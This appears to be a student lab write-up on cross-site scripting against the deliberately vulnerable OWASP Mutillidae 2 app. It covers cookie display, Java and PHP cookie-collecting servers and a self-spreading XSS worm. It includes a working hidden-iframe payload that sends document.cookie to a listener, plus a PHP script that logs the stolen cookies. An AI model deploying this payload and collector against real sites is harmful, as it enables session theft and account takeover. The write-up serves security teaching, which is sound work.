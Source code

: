 # XSS-Attack
Cross-Site Scripting Attack

#### Setup

We are going to work on a publicly available open-source vulnerable web applica-
tion: OWASP Mutillidae 2. This application contains various web vulnerabilities
including XSS attack.  It is based on PHP and MySQL and part of the OWASP
(Open Web Application Security Project). You need to download OWASP Virtual
Machine to obtain OWASP Mutillidae 2. The virtual machine can be downloaded
from [here](https://sourceforge.net/projects/owaspbwa/files/1.2/) and OWASP Mutillidae 2 can be run from any browser in Windows, Mac
or Linux

#### Alice adds to her blog an entry that contains a JavaScript code that shows
their cookies to the users who visit her blog
Here we added simple JavaScript code to print cookie of user who have just entered to see blog
posts of Alice.

#### Tcp and Web Server

We first tried to write simple tcp server in Java. We have used Server Socket to listen port and
accept data from sender. Operating System doesn't allow us to listen 6000 port. We have changed
that to 6001 in Java.
Buffered Reader was used to get input data from sender then File Writer writes data to cookies text
file. The second parameter of File Writer enables append function. We set true to append string
repeatedly to an existing file. There is a header list for header part of message and body string for
the body part. Data comes in two part separated by new line. If line is empty that means header part
of message has been sent and next part will be the body part of the message. Also all of these were
written in an infinite loop. That means server keeps accepting data until user closes program.

Web Server part of task actually was a little hard to implement in PHP than Java. First we have set
time limit to zero. Time limit is the number of seconds a script is allowed to run. Default limit is 30
seconds. Zero means no time limit specified. We have create socket using socket_create function.
AF_INET is IPV4 Internet based protocols. TCP and UDP are common protocols of this protocol
family. SOCK_STREAM provides reliable and full-duplex byte streams. TCP protocol is based on
this socket type. The last parameter in socket_create function is protocol. If the desired protocol is
TCP, or UDP the SOL_TCP and SOL_UDP can also be used. Socket_bind used to bind host and
port to socket. Socket_listen function has been used to listen incoming connections on socket.
Second parameter is backlog parameter that determines maximum of incoming connections will be
queued for processing. We have set this number to 3. If a request arrives with the queue full then
client may receive error message but if the protocol supports (underlying) retransmission, request
will be ignored so that retries may succeed. Socket_accept accepts connection on a socket. If there
are multiple connections on queue first connection on the queue will be accepted. Socket_read reads
data from incoming connection and returns data as a string. Second parameter determines length of
data that will be read by socket_read function. Trim function return a string that whitespace stripped
from beginning and end of string. Trim function also can strip characters such a tab, newline etc.
The last function is socket_close which closes the opened socket. (We cannot put it right after an
infinite loop in Java) We had a problem with printing output to web page as a table. So we have just
printed output to terminal. We could not receive data from incoming connection.

We have printed received data to terminal. Outputs of users who viewed Alice's blog.

#### Another PHP WebServer

Another way of using php webserver is using iframes instead of sockets. Attacker can post a
javascript code which creates an iframe, with source of our webserver. It can pass parameters (in
this scenario, cookies of the visitor) to webserver and if webserver saves them in a file, we can
effectively listen and log cookies of users at target webserver.

Example JS code which creates hidden iframe:

```
<script>document.write(\'<iframe src="http://localhost:8888/xss/index.php?
q=\'+escape(document.cookie)+\'" height=0 width=0 />\');</script>
```

And example php server, which collects and saves cookies:

```
<?php
$cookie = $_GET['q'];
$myfile = file_put_contents('cookies.txt', $cookie.PHP_EOL , FILE_APPEND);
?>
```

#### JavaScript (XSS Worm)

In this part, we have created an XSS Worm. Which means that, after first attacker posted it's
code, it affects any user that visited attacker's blog, and makes them another infecter.

It works like this:

Alice (Attacker), posts malicious code.
Bob (Innocent), visits Alice's blog and gets infected.
Dan (Innocent), visits Bob's (infected) blog and gets infected.
Eve (Innocent), visits Dan's (infected) blog and gets infected, etc.

Malicious code contains 2 parts.

First part, fetches malicious code from another webserver.
Second part, finds victim's session id and makes a request to “add-to-your-blog” page, using
victim's cookie. By this way, victim posts malicious code to his/her own blog.

Code at the webserver contains the same code which attacker used at first. Which means,
every user just replicates attacker's code to infect other visitors.

To make requests, we used xmlHttpRequest. To make them synchronous, code waits for the
first request (fetch malicious code from server), then makes second request (add malicious
code to target site).

To avoid conflicts, we added this header to our webserver.

`header("Access-Control-Allow-Origin: *");`

This code makes possible to send requests to the server from another domains.

